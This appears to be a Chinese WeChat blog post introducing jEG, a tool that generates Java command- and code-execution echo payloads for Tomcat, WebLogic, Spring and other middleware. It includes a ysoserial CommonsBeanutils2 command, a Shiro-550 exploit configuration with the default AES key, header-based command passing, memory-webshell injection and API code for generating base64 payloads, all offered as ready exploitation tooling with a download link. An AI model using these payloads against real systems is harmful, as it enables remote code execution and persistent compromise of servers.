 #  jEG - 高度自定义的 Java 回显生成工具

原创 pen4uin [ pen4uin ](javascript:void\(0\);)

**pen4uin** ![]()

微信号 gh_ffc9f5385230

功能介绍 技术分享

____

___发表于_

收录于合集

#工具开发 4 个

#漏洞利用 5 个

### 0x01 工具简介

 **jEG (Java Echo Generator )** 是一款支持高度自定义的 Java 回显载荷生成工具。

功能介绍

  * 支持的中间件和框架
    * Tomcat/Resin/Jetty/WebLogic/WebSphere/Undertow
    * SpringMVC/Struts2
  * 支持的执行模式 (Command/Code)
  * 支持的输出格式 (BASE64/BCEL/BIGINTEGER/CLASS/JAR/JS)

执行模式

  * 命令执行回显
  * 代码执行回显（toString）

工作模式

  * 作为 独立的 GUI 工具
  * 作为 woodpecker 的插件
  * 作为 第三方库

下载地址

    
    
    https://github.com/pen4uin/java-echo-generator-release  
    

### 0x02 工具演示

#### 两种执行模式

 **命令执行**

0、测试环境说明

  * Tomcat v8.5.91
  * JDK 8
  * 原生反序列化漏洞
  * CommonsBeanutils2

1、生成对应命令执行回显的 payload，继承 AbstractTranslet

![]()

2、使用 yso 进行序列化利用封装

    
    
    java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils2 -a "class_file:/Users/NotFound/Temp/SessionDataUtil.class" | base64  
    

3、通过请求头 Cache-Control-Ymirvesoc 传入需要执行的命令，如图，命令成功执行并回显  

![]()

 **代码执行**

0、测试环境说明

  * SpringBoot 2.2.6.RELEASE
  * JDK 8
  * Shiro 550
  * CommonsBeanutils2_183

1、生成对应代码执行回显的 payload，继承 AbstractTranslet

![]()

2、使用 shiro 漏洞利用插件对 payload 进行加密处理

  *   *   *   * 

    
    
    yso_gadget=CommonsBeanutils2_183yso_cmd=class_file:/Users/NotFound/Temp/CSVUtil.classshiro_key=kPH+bIxk5D2deZiIxcaaaA==aes_model=CBC

3、准备需要执行的代码，这里以shiro常见的漏洞利用场景作为演示 - 注入内存马，使用 jMG 生成BASE64格式的内存马注入器

![]()

4、通过请求参数 `Dsyoi` 传入需要执行的字节码，如图，代码成功执行并回显

![]()

5、内存马注入成功

![]()

#### 三种工作模式

 **图形化**

1、下载 jEG-gui-1.0.0.jar 运行即可

![]()

 **Woodpecker 插件**

1、下载 jEG-woodpecker-1.0.0.jar 到 woodpecker 插件目录下即可

![]()

 **第三方库**

1、下载 jEG-core-1.0.0.jar 并安装到本地 maven 仓库

    
    
    mvn install:install-file -Dfile=jEG-core-1.0.0.jar -DgroupId=jeg -DartifactId=jeg-core -Dversion=1.0.0 -Dpackaging=jar  
    

2、引入自己的框架/工具的依赖中

    
    
    <dependency>  
        <groupId>jeg</groupId>  
        <artifactId>jeg-core</artifactId>  
        <version>1.0.0</version>  
    </dependency>  
    

3、调用 API 生成需要的回显载荷即可

    
    
    // 基本配置  
    jEGConfig config = new jEGConfig() {{  
        // 设置待回显的中间件为 tomcat  
        setServerType(Constants.SERVER_TOMCAT);  
        // 设置待执行的 payload 为命令执行回显  
        setModelType(Constants.MODEL_CMD);  
        // 设置 payload 的输出格式为 BASE64  
        setFormatType(Constants.FORMAT_BASE64);  
        // 初始化基础配置  
        build();  
    }};  
    // 生成 payload  
    jEGenerator generator = new jEGenerator(config);  
    System.out.println("请求头: " + config.getReqHeaderName());  
    System.out.println(generator.getPayload());  
    

### 0x03 最后

从 jMG 到 jEG，Java 漏洞利用的造“轮子”之旅也算可以告一段落了。

最后祝大家节日快乐！

* * *

参考

    
    
    https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/  
    https://gist.github.com/fnmsd/8165cedd9fe735d7ef438b2e977af327  
    https://github.com/feihong-cs/Java-Rce-Echo  
    

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

